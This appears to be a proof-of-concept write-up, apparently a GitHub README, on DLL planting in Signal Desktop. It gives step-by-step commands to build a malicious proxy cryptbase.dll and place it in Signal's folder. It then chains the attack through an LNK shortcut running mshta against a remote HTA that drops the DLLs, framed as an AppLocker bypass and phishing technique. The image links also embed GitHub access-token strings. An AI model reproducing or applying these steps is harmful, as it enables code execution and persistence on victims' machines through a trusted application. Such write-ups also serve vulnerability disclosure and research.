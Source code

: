 # Summary 
Multiple instances of DLL planting exist, and a threat actor can plant DLLs that don't exist but are referenced by the application 

# Steps to Replicate
1. First, create a malicious DLL. Signal references a bunch of non-existent DLLs, so for this example, I used `cryptbase.dll`. You can use [this repository](https://github.com/tothi/dll-hijack-by-proxying) to build the DLL, but I'll simplify the steps for you:
   * Clone the repo.
   * Modify the `payload.c` file as you see fit.
   * Copy `C:\Windows\System32\cryptbase.dll` into the `dll-hijack-by-proxying` directory as `cryptbase_original.dll`.
   * Create the exports using the `gen_def.py` script in the `dll-hijack-by-proxying` directory.

    ```
    python3 gen_def.py cryptbase_orig.dll > cryptbase.def
    ```
   
   * Run the following command if you're compiling for x64 Windows:

    ```
    compile x86_64-w64-mingw32-gcc -shared -o cryptbase.dll cryptbase.c cryptbase.def -s
    ```

2. Now you've got your malicious DLL. Copy `cryptbase.dll` and `cryptbase_orig.dll` into the `%LocalAppData\Programs\signal-desktop` folder.
3. Run Signal, and the code will execute. Here's a cute calculator PoC example:
   
    ![Calculator PoC](https://raw.githubusercontent.com/johnjhacking/placeholder/main/1.png?token=GHSAT0AAAAAABZSW66OBKS446AIMVFSEHF6ZASOIUQ)

# Turning up the Heat
If you're like me, simply popping the calculator isn't enough. Let's chain this as an LNK -> HTA -> Your Payload. Signal references non-existent DLL files, and you can chain this against as a bypass against something like AppLocker or a default deny tool, leveraging the trust of the product as a "safe" messenger.

1. Create an LNK shortcut, and change the target to the following:

    ```
    C:\Windows\System32\mshta.exe https://yourdomain/poc.hta
    ```

    It should look something like this:
   
    ![LNK PoC](https://raw.githubusercontent.com/johnjhacking/placeholder/main/2.png?token=GHSAT0AAAAAABZSW66P7OWYJP4BVQXBRA5GZASOJGQ)

2. Host your `cryptbase.dll` and `cryptbase_orig.dll` files.
3. Modify the code in the `poc.hta` file within this GitHub repo to utilize the URLs of your hosted DLL files.
4. Host the HTA on your domain.
5. Run the LNK shortcut and watch as the DLL files are dropped into the `%LocalAppData\Programs\signal-desktop` folder.
6. Now, when the victim runs Signal, your malicious DLL will run. Phishing ftw.
7. You can use whatever you want, but for a quick test, I hosted an HTA server to see if my HTA would drop the DLLs that execute an HTA LOL, so in my case, the chain was LNK -> HTA drops DLLs -> User runs Signal -> DLL executes remote HTA. In a non-poc scenario, I'd swap the HTA payload out with a custom DLL payload and cut out the secondary remote call.
   
    ![RCE Proof](https://raw.githubusercontent.com/johnjhacking/placeholder/main/3.png?token=GHSAT0AAAAAABZSW66OWR6EFTYZEPV3LOHCZASOJSQ)
